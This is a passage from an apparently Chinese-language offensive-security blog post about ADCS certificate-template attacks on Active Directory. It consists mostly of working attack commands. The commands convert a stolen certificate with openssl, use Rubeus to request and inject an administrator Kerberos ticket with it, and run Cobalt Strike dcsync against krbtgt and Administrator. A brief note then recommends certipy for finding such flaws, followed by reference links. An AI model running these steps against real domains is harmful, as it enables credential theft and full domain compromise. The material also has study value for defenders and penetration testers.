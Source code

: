 将cert.pem的值保存下来，转化一下

```
#通过openssl转换证书
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

Rubeus.exe asktgt /user:administrator /certificate:cert.pfx /ptt

#也可以将pfx证书转换为base64
cat cert.pfx | base64 -w 0

Rubeus.exe asktgt /user:administrator /certificate:base64 /aes256 /nowrap

Rubeus.exe asktgt /user:administrator /certificate:base64 /aes256 /nowrap
Rubeus.exe asktgt /user:Administrator /certificate:base64 /ptt

CS可直接执行：
beacon> dcsync attack.cn ATTACK\krbtgt
beacon> dcsync attack.cn ATTACK\Administrator
beacon> dcsync attack.cn 
```

剩下的ECS2-8可以参考https://xz.aliyun.com/t/13735

总的来说都是证书模板等配置问题导致的不同的ADCS攻击方式，都可以用certipy这个工具在域外来进行操作，后续有时间的话可以把这几个攻击方式都补上，平常遇到了关于有CA服务器的话可以来certipy这个工具来发现是否存在ADCS攻击，有的话再去寻找利用方式吧

 

参考链接：

https://yangsirrr.github.io/2021/08/16/adcs-esc1-esc8-gong-ji-fang-shi/#toc-heading-124

https://xz.aliyun.com/t/11627

https://blog.csdn.net/Adminxe/article/details/129353293

https://xz.aliyun.com/t/13735